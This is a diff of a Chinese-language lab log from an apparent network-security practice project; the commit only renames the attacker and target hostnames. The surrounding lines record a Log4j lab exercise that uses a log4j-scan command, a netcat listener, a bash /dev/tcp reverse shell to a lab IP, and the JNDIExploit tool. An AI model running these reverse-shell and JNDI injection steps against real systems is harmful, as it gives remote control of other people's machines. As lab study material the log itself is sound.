

Before and after one commit to lihan3238/Network-Security-Comprehensive-Practice, a Markdown page: 0_lihan3238/个人开发日志.md, the part around the change printed below. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

````diff
--- a/0_lihan3238/个人开发日志.md
+++ b/0_lihan3238/个人开发日志.md
@@ -308,13 +308,13 @@ python3 log4j-scan.py --request-type get -u http://192.168.182.129:43381/hello -
 
 1. 测试攻击机 Shell 连接靶标容器
 
-- `lihanattacker` 在攻击机上监听端口，等待靶标容器连接
+- `kaliattacker` 在攻击机上监听端口，等待靶标容器连接
 
 ```bash
 nc -l -p 7777
 ```
 
-- `lihantargetserver` 在靶标容器中执行反弹 Shell 命令
+- `kalitargetserver` 在靶标容器中执行反弹 Shell 命令
 
 ```bash
 # 进入靶标容器
@@ -331,7 +331,7 @@ bash -i >& /dev/tcp/192.168.56.130/7777 0>&1
 
 3. 反弹 Shell 实战
 
-- `lihanattacker`
+- `kaliattacker`
 
 安装 `JNDI注入` 利用工具 [JNDIExploit](https://github.com/Mr-xn/JNDIExploit-1)
 
````
Also changed, not shown: other parts of 0_lihan3238/个人开发日志.md (+28 -1 lines), docs/GitHub小组合作说明文档.md (+7 -0 lines), img/lihan3238_doc/metasploit_1.png (added).
